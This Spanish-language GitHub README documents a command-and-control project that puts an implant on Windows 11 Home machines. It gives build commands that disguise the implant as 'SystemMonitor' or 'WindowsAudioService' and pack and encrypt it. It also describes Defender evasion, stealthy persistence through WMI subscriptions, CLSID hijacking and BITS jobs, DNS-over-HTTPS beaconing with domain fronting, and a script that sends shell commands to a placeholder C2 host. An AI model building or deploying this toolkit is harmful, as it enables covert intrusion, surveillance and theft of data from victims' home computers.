

# 🎯 **README.md - Proyecto de Implante Windows 11 & C2 Server**

```markdown
# 🚀 Windows 11 Home Implant & C2 Server


## 📋 Descripción del Proyecto

Sistema completo de Command & Control (C2) diseñado específicamente para Windows 11 Home Edition, implementando técnicas modernas de evasión y persistencia que funcionan en entornos domésticos sin EDR avanzado.

### ✨ Características Principales

| Característica | Descripción | Ventaja |
|----------------|-------------|---------|
| **Evación de Defender** | Sin desactivar protecciones | Bajo riesgo de detección |
| **Persistencia Stealth** | Sin Run keys/Startup folders | No dispara alerts comunes |
| **Comunicación DoH** | DNS-over-HTTPS encriptado | Tráfico indistinguible |
| **Ejecución Legítima** | Binarios firmados Microsoft | Trusted processes |
| **Timing Realista** | Horas/días entre beacons | Comportamiento natural |

## 🛠️ Instalación y Configuración

### 📦 Prerrequisitos

#### Para Kali Linux (Servidor C2):
```bash
# Actualizar sistema
sudo apt update && sudo apt upgrade -y

# Instalar Python y herramientas
sudo apt install python3 python3-pip python3-venv git openssl

# Instalar dependencias específicas
sudo apt install python3-aiohttp python3-dnspython
```

#### Para compilación del implante (desde Kali):
```bash
# Instalar PyInstaller para Windows
pip3 install pyinstaller

# Instalar dependencias cross-compilation
sudo apt install mingw-w64
```

### 🚀 Configuración Rápida

#### 1. Clonar el repositorio
```bash
git clone https://github.com/tu-usuario/windows11-c2-project.git
cd windows11-c2-project
```

#### 2. Configurar entorno virtual
```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## 🔧 Compilación del Implante

### 📝 Paso a Paso - Crear Ejecutable Windows

```bash
# 1. Navegar al directorio del proyecto
cd windows11-c2-project

# 2. Activar entorno virtual
source venv/bin/activate

# 3. Compilar para Windows (desde Kali)
pyinstaller --onefile \
            --noconsole \
            --name "SystemMonitor" \
            --icon "assets/icon.ico" \
            --add-data "configs:configs" \
            modern_windows11_home_implant.py

# 4. El ejecutable estará en:
#    dist/SystemMonitor.exe  ← Para Windows 11
```

### 🎨 Opciones de Compilación Avanzadas

```bash
# Compilar con optimizaciones adicionales
pyinstaller --onefile \
            --noconsole \
            --name "WindowsAudioService" \
            --upx-dir=/usr/bin/upx \  # Comprimir con UPX
            --key "YourEncryptionKey123" \  # Encriptar bytecode
            --add-binary "libs/*;libs" \
            --hidden-import win32api \
            --hidden-import win32con \
            --hidden-import win32security \
            modern_windows11_home_implant.py
```

## 🌐 Configuración del Servidor C2

### 📡 Servidor DNS-over-HTTPS (DoH)

```bash
# 1. Generar certificados SSL
cd windows11-c2-project
./scripts/generate_certs.sh

# 2. Iniciar servidor C2
python3 advanced_doh_c2.py \
    --host 0.0.0.0 \
    --port 443 \
    --doh-endpoint /dns-query \
    --ssl-cert server.crt \
    --ssl-key server.key

# 3. Verificar que está corriendo
curl -k https://localhost:443/health
```

### 🔧 Configuración del Firewall (Kali)
```bash
# Abrir puertos necesarios
sudo ufw allow 443/tcp
sudo ufw allow 53/udp  # Opcional para DNS estándar
sudo ufw allow 80/tcp  # Para redirección HTTP
sudo ufw enable

# Verificar reglas
sudo ufw status verbose
```

## 🎮 Uso del Sistema

### 🖥️ Panel de Control del C2

```bash
# 1. Iniciar panel web de administración
python3 c2_dashboard.py --port 8080

# 2. Acceder desde navegador:
#    http://tu-ip-kali:8080
```

### 📊 Comandos Disponibles en el Dashboard

| Comando | Descripción | Ejemplo |
|---------|-------------|---------|
| `list_sessions` | Ver implantes activos | Auto |
| `send_command` | Ejecutar en target | `systeminfo` |
| `download_file` | Descargar archivo | `/path/file.txt` |
| `take_screenshot` | Capturar pantalla | Auto |
| `persistence` | Gestionar persistencia | `add/remove` |

### 📡 Envío Manual de Comandos

```python
# Ejemplo: Enviar comando a implante específico
import requests

command_data = {
    "session_id": "abc123def",
    "command": "whoami /all",
    "type": "shell"
}

response = requests.post(
    "https://c2-server.com/command",
    json=command_data,
    verify=False  # Para self-signed certs
)

print(f"Response: {response.json()}")
```

## 🏗️ Arquitectura del Sistema



## 🛡️ Mecanismos de Evasión Implementados

### 🔒 Sin Desactivar Defender
- ✅ Usa binarios firmados por Microsoft
- ✅ No modifica configuraciones del sistema
- ✅ Ejecución en user-space normal
- ✅ Sin hooks ni inyección de memoria

### 🌐 Comunicación Stealth
- **DNS-over-HTTPS**: Tráfico encriptado
- **Domain Fronting**: Usa dominios legítimos
- **Timing Aleatorio**: Horas entre beacons
- **Jitter**: ±30 minutos de variación

### Persistencia Home Edition
- **WMI Event Subscriptions**: Poco monitorizado
- **CLSID Hijacking**: Técnica rara en Home
- **BITS Jobs**: Tráfico Windows Update-like
- **Sin Run Keys**: Evita detección básica

## 📈 Estadísticas y Monitoreo

El servidor C2 incluye:

```bash
# Ver estadísticas en tiempo real
python3 stats_monitor.py

# Exportar logs
python3 export_logs.py --format json --output logs.json

# Monitorear actividad de red
sudo tcpdump -i any port 443 -w c2_traffic.pcap
```
